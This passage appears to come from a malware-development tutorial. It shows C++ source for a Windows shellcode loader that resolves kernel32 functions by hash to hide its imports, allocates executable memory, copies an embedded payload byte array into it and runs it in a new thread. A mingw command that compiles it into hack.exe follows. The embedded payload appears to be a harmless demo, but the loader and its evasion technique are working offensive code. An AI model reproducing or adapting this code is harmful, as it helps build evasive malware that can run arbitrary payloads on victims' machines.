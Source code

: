 ```cpp
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```

As you can see, I used the same hash algorithm.    

### demo

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/47/2022-04-05_02-15.png){width="80%"}    
